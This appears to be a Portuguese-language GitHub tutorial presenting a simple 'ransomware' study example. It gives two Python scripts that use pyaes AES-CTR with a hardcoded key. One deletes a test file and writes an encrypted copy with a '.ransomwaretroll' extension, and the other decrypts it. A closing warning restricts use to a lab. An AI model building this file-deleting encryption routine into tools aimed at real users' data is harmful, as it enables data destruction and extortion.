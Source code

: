 RANSOMWARE PARA CRIPTOGRAFIA E DESCRIPTOGRAFIA DE ARQUIVO

Iremos utilizar como base de teste um arquivo .TXT a ferramente utilizada será o Kali Linux

antes de começar verifique se a biblioteca PYAES está baixada, caso não esteja realize o download para o funcionamento do código.

PASSO A PASSO

1. CÓDIGO PARA CRIPTOGRAGAR

import os
import pyaes

## abrir o arquivo a ser criptografado
file_name = "teste.txt"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## remover o arquivo
os.remove(file_name)

## chave de criptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

## criptografar o arquivo
crypto_data = aes.encrypt(file_data)

## salvar o arquivo criptografado
new_file = file_name + ".ransomwaretroll"
new_file = open(f'{new_file}','wb')
new_file.write(crypto_data)
new_file.close()

2. CÓDIGO PARA DESCRIPTOGRAFAR

import os
import pyaes

## abrir o arquivo criptografado
file_name = "teste.txt.ransomwaretroll"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## chave para descriptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)
decrypt_data = aes.decrypt(file_data)

## remover o arquivo criptografado
os.remove(file_name)

## criar o arquivo descriptografado
new_file = "teste.txt"
new_file = open(f'{new_file}', "wb")
new_file.write(decrypt_data)
new_file.close()

LEMBRE-SE DE UTILIZAR ESSE CÓDIGO PARA ESTUDOS EM AMBIENTE CONTROLADO ( LABORATÓRIO ). É CRIME UTILIZA-LO EM AMBIENTE ABERTO OU PARA DANOS A TERCEIROS.
